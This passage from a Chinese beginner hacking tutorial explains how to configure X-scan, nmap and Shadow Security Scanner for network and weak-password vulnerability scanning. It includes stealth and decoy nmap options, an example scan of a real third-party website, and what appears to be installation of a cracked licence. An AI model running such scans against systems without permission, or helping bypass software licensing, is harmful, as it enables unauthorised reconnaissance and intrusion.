

图1.4

我们点击左上角的扫描参数图标来进行设置，在“扫描参数”界面右边的“指定IP范围”栏里填写我们要扫描的电脑的IP范围，比如 192.168.0.1-192.168.0.254，如图1.5。



图1.5

在“全局设置”项的“扫描模块”里主要包含了一些基本的扫描选择，主要是各种弱口令的检测，如图1.6。



图1.6

在“其他设置”选项里主要有“跳过没有响应的主机”以及“无条件扫描”两个选项。使用“跳过没有响应的主机”方式，将会增加扫描的速度，缩减扫描的时间，但是扫描的准确性稍差；而如果使用“无条件扫描”方式，准确度最高，但扫描的时间却也最慢。因此如何选择最好就要看自己的目的了。如果是要扫描许多电脑的话，建议使用第一种方式；而如果只是要对单一主机进行扫描的话，建议使用后一种方式，如图1.7。



图1.7

### Easy Hacker

在“插件设置”下的“端口相关设置”里，主要是设置要扫描的端口。在此我们可以自由地定义要检测的端口及检测的方式，如图1.8。



图1.8

一切都设置好后，就可以点击主界面上方第二个按钮来开始扫描了，如图1.9。



图1.9

在最左一栏是检测到的目标主机的一些情况，红色感叹号就说明是存在严重的安全漏洞的，在后边也会给出漏洞的名称，如图1.10。



图1.10

当所有的主机都检测完毕后，X-scan 会以 HTML 网页文件的格式显示出详细的检测报告，以供我们分析，如图1.11。



图1.11

最后要注意，X-scan3.* 版本只能应用于 Windows2000 以后版本中，如果你们使用的操作系统是 Windows9*/ME 的话，就只能使用早期的 X-scan2.3 版本了。

### 1.2.3 UNIX/Linux 下的王牌 nmap

nmap 最早是被应用于 UNIX/Linux 系统下的一个著名的端口扫描程序。不过，因为它优秀的扫描表现，现在也已经被移植到了 Windows 系统平台下，其最新的版本为 3.81。

nmap 是一个基于命令行方式下的扫描工具，我们在 cmd 下直接运行 nmap，将会得到它详细的使用参数说明，如图1.12。



> 图1.12

因为是英文介绍，不利于初学者的学习，因此将其使用格式翻译如下：

```text
Nmap 3.81 用法：nmap [扫描类型] [操作参数] <主机或者主机清单>
常用扫描类型（带“*”的表示该类型需要管理员权限）
* -sS TCP SYN stealth 端口扫描（如果是管理员权限的话，默认就是这个选项）
- -sT TCP connect() 端口扫描（如果是普通用户的话，默认是这个选项）
* -sU UDP 端口扫描
- -sP ping 扫描（寻找存活主机）
* -sF -sX -sN Stealth FIN、Xmas、or Null scan（专家模式）
- -sV 版本扫描探测开放端口决定服务与应用程序的名字和版本
- -sR RPC 扫描（当使用其他方式扫描时）
常用操作模式（没有一个是必须的，大多数可同时使用）：
* -O 使用 TCP/IP fingerprinting 探测远程操作系统类型
- -p <端口范围> 需要扫描的端口。例：1-1024,1080,6666,31337
- -F 仅扫描 nmap-services 里包含的端口列表
- -v 显示更多信息，使用两次 -vv 得到更详细的信息
- -P0 不要 ping 主机（当要扫描的机器禁止 ping 时）
* -D 欺骗扫描，使用虚假地址进行隐藏扫描
- -6 使用 IPv6 协议
```

```text
（能力限制，这里就不翻译了）

* `-S <你的IP地址>/-e <网卡名>` 自定义源地址
* `--interactive` Go into interactive mode (then press h for help)
* `--win_help` windows下的特别帮助信息
```

其实我们在日常的使用中也不是所有的参数都可以用到的，在此只需要记住最基本的使用格式就可以了。`nmap -v -sS -O www.baidu.com 192.168.1.1-50 192.168.1.102`，其中多个 IP 或主机名用空格隔开，也可以使用类似于 X-scan 的掩码表示法。它的意思是，使用 SYN 方式扫描以下目标：

```text
www.baidu.com
192.168.1.1-192.168.1.50
192.168.1.102
```

同时使用了 `-O` 参数，那么还要探测它们是什么系统。

- 1. `nmap -sS -p 22,23,80,135,443 ip`：这是使用 SYN 方式扫描指定 IP 的 22、23、80、135、443 端口。
- 2. `nmap -sS -O -p 135-554 ip`：这是扫描指定 IP 的 135 到 554 端口并且扫描其操作系统类型。（`-O` 参数）
- 3. `nmap -sT -P0 www.baidu.com`：这是不 ping 直接扫描 www.baidu.com。在遇到一些无法 ping 通的机器的时候使用，其扫描类型也由 SYN 变成了 TCP 方式了。

### 1.2.4 俄罗斯优秀的扫描工具——SSS.

Shadow Security Scanner（也就是我们常说的 SSS）是来自俄罗斯的一款商用安全检测工具，就其性能来讲毫不逊色于 X-scan，而扫描的速度也不输给 Superscan，因此深受黑客高手们的喜爱。其最新版本为 7.58。

我们双击运行 sss.exe 来进行安装，虽然是英文界面，不过安装非常简单，一路 NEXT 就 OK 了！安装成功后，它会自动检测最新的升级补丁，如图1.13。



图1.13

点击“Cancel”按钮取消升级，否则它会提示我们使用的不是正式版本。接下来，弹出要求我们注册的对话框，如图1.14。



图1.14

我们单击右边“Register license file”的按钮，会弹出如图1.15所示的对话框，单击“Add license”按钮，在解压的目录找到 license.key 文件，将其添加到对话框里，单击“OK”后会提示我们需要重新运行 SSS。



图1.15

我们可以在“开始”→“程序”→“Safety-lab”→“Shadow Security Scanner”下找到安装后的 SSS，运行界面如图1.16。



图1.16

## 第一章

单击“Scanner”按钮进入扫描选项，如图1.17。这里可以选择是完整扫描（Complete Scan）还是全面扫描（Full Scan）或者是快速扫描（Quick Scan）等。



图1.17

所谓完整扫描就是扫描常见的端口与漏洞，不进行 Dos 测试，而全面扫描会把 1-65535 的所有端口全部扫描一遍，其它的选项使用得并不多。

我们先来看看 SSS 的“完整扫描”，单击左边第二个按钮“Edit rule”编辑规则，将中间那个最长的选项“Host Ping type”改为第一项，即忽略不响应 ping 的主机（默认选项的意思类似于 X-scan 里的“无条件扫描”），如图1.18。



图1.18

此时会提示我们将修改后的规则保存为一个新的规则，我们为其命名为：“Complete Scan Without Ping”，然后在规则的最下方就会出现该选项，选中它后，单击 Next 按钮，如图1.19。

